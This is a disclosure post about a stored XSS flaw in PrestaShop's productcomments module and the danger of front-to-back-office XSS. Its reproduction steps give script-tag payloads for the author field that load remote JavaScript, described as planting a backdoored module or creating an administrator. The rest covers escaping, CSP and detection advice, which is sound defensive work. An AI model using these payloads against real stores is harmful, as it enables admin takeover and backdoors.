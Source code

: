```yaml
---
layout: post
title: "Danger of stored XSS vulnerability in CMS especially for PrestaShop"
categories: modules
author:
- 202 ecommerce
- TouchWeb
- Friends-Of-Presta.org
meta: "CVE,PrestaShop"
severity: "critical (9.8)"
---
```



As a developer, the severity level is often considered to be low. By underestimating the gravity, we lower our guard against these vulnerabilities. However, some types of vulnerabilities called "stored XSS" are particularly critical when they spread from the front office to the back office.

This publication is a summary of Touchweb's work studying the impact of XSS vulnerabilities in the context of the PrestaShop CMS. 

To highlight the criticality of XSS and give us the means to mitigate their effects, Touch Web conducted its research based on the vulnerability of the [productcomments module](https://github.com/PrestaShop/productcomments/security/advisories/GHSA-prrh-qvhf-x788), which in version 5.0.1 has a stored XSS.


### How to know if a XSS is critical ?

That's important to caracterize with strictness XSS. There is to many people which only tag this vulnerability as "XSS" which is dangerous since there will be misunderstood and often under valuation of gravity.

The most dangerous are XSS of type 2 according to their official CWE ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)), meaning Stored-XSS (or persistent XSS) and more specialy those which can be injected from FRONT by guest or assimilated to target BACK.

We will call them: [CWE-79](https://cwe.mitre.org/data/definitions/79.html) / T2-F2B (Type 2 : Stored XSS AND from Front office to Back office).

In summary, if you can inject a XSS from FRONT as guest (or assimilated), which will be stored in database then interprated on BACK, then it's a critical vulnrability which must be scored CVSS 3 : 9.5+/10 since it unlocks design's vulnerabilities (users's administration / modules's administration / any admin's controllers)

For all others XSS including Type 0/1 and Type 2 F2F/B2B, you can preserve a low to medium gravity score.

### Module presentation

The productcomments module allows, as an anonymous or customer, to post comments associated with products from the front office of the store. Three fields are present:
* title
* Author
* Content

The author field, after a refactoring, is not protected in the sense that the entered value is stored as is in the database and displayed without escaping in the back office.

Example:
* author entered: <em>my name</em>
* result: my name will be displayed in bold in the back office in the moderation table of comments.

From then on, it is possible to inject malicious JavaScript, for example: `<script src='test.js'>`


### Proof of concept

Touchweb provides two benign JavaScript scripts that highlight the vulnerability for PrestaShop 1.7+ (we tested for 1.7.7.8).
* Script A allows injecting a blockwishlist module containing a backdoor without the knowledge of a moderator, i.e. an administrator with rights.
* Script B allows injecting an administrator in the specific case where it is disabled.
DO NOT TEST IT IN PRODUCTION.


### How to reproduce?

* We installed PrestaShop 1.7.7.8.
* We installed the [productcomments module zip](https://github.com/PrestaShop/productcomments/releases/download/v5.0.1/productcomments.zip).
* (Optional) To facilitate adding comments without a customer account, we activated the anonymous comments option.
* Enter `<script src="//1j.vc/ps_a.js">` or `<script src="//1j.vc/ps_b.js">` as "author" and complete the other fields.
* Return to the back office on the module configuration page.


### How to best protect yourself?

In the face of a Stored XSS vulnerability targeting the back office, it is impossible to undo all the effects. However, the most dangerous exploits can be limited.

* Systematically escape characters ' " < and > by replacing them with HTML entities and applying strip_tags - Smarty and Twig provide auto-escape filters: 
** Smarty: `{$value.comment|escape:'html':'UTF-8'}`
** Twig: `{{ value.comment|e }}`
* Configure CSP headers (content security policies) by listing  externals domains allowed to load assets (such as js files).
* If applicable: check against all your frontoffice's uploaders, uploading files which will be served by your server with mime type application/javascript (like every .js natively) must be strictly forbidden as it must be considered as dangerous as PHP files.
* Activate OWASP 941's rules on your WAF (Web application firewall) - be warn that you will probably break your backoffice and you will need to preconfigure some bypasses against these set of rules.
* Be sure to encode guest's input when you use it on backoffice : 


### How to know if I'm already infected by a XSS of type 2 (Stored-XSS)?

You must check every tables within your database which could store guest's input, at least against common XSS injection. 
You can find a list of potential hijacked events on [PrestaShop method Validate::isCleanHtml()](https://github.com/PrestaShop/PrestaShop/blob/develop/classes/Validate.php#L507)

Be warn that you will probably face falses positives alerts which can be time consumming.
